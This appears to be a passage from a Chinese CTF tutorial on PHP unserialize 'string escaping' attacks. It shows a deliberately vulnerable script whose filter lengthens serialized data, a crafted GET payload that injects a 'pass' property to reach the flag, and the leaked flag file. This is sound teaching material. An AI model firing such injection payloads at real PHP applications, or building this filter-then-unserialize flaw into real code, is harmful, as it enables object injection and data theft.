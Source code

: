 ### 3、字符串逃逸-增多

示例代码：

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
function filter($name){
    $safe=array("flag","php");
    $name=str_replace($safe,"hack",$name);
    return $name;
}
class test{
    var $user;
    var $pass='daydream';
    function __construct($user){
        $this->user=$user;
    }
}
$param=$_GET['param'];
$param=serialize(new test($param));
$profile=unserialize(filter($param));

if ($profile->pass=='escaping'){
    echo file_get_contents("flag.php");
}
?>
```

构造参数：`?param=phpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphp";s:4:"pass";s:8:"escaping";}`

```text
<!--?php

/*
 * # -*- coding: utf-8 -*-
 * # @Author: benben
 * # @link: https://ctfstu.com
 *
 * */

$flag = 'ctfstu{5c202c62-7567-4fa0-a370-134fe9d16ce7}';
-->
```